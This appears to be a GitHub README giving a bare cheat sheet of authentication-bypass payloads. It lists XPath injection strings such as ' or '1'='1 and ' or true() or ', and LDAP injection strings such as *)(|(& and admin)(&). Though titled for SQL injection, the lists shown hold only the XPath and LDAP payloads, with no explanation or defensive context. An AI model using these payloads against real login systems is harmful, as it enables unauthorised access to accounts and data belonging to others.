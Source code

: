 # SQL-Injection-Authentication-Bypass
Xpath Injection, LDAP Injection, SQL Injection Authentication Bypass

XPATH Injection Authentication Bypass:
```' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2```

LDAP Injection Authentication Bypass:
```*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|```

